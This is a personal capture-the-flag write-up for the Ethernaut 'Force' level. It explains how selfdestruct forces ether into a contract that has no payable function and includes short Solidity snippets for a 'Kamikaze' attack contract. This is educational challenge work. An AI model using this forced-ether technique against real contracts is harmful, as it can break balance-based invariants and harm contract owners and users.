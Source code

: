 I definitely needed to consult some other solutions for this one - the base prompts didn't really yield anything useful. I pretty much ripped my solution from the guide [here](https://medium.com/coinmonks/ethernaut-lvl-7-walkthrough-how-to-selfdestruct-and-create-an-ether-blackhole-eb5bb72d2c57).

The following is mostly a copy pasta butI'm putting it here for my own reference.

## Notes
There are 3 ways in which a contract can receive ether:
1. **via payable functions** (with fallback functions being the default)
2. **by receiving mining rewards**
3. **from destroyed contracts** (key here)
    * `selfdestruct` is a low-level opcode call which consumes ~negative gas!~ (sort of a garbage collection incentive to clean up dead contracts)
    * This can be used to destroy a contract and forward remaining eth to a backup address

Example:
```javascript
function suicide() public onlyOwner {
    //recommended: emit an event as well
    selfdestruct(owner);
}
```
## Solution
The `Force` contract we see in this challenge is empty and we're tasked with giving it a balance > 0. To solve this we will:
1. Create a contract on Remix and give it a method to receive funds (which we'll later send to the ethernaut contract)
```javascript
contract Kamikaze {
    function collectFunds() public payable returns(uint) {
        return address(this).balance;
    }
}
```
2. Send the contract some eth (in Remix this can be done by putting an int in the Value input then calling `collectFunds`)
3. Add a call to `selfdestruct` this contract and call it
```javascript
function suicide() public {
    address payable ethernautContract = "<your instance here>";
    selfdestruct(ethernautContract);
}
```
